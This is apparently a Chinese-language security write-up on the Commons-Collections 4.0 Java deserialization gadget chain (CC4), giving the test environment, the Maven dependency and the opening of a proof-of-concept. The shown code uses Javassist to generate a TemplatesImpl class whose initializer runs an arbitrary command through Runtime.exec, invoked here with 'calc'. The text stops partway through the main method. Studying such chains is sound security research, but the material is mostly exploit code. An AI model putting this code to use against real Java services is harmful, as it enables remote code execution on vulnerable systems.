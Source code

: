 ##  CommonsCollections_4

- 本机环境：

  JDK版本：jdk1.7u_51

  CC版本：Commons-Collections 4.0

CC4 是 CC2 的一个变种，用 PriorityQueue 的 TransformingComparator 触发 ChainedTransformer，再利用 InstantiateTransformer 实例化 TemplatesImpl。

先加载依赖

```xml
<!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

## POC&复现

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonCollections4 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    public static void main(String[] args) throws Exception {

        byte[] code = getTemplatesImpl("calc");
```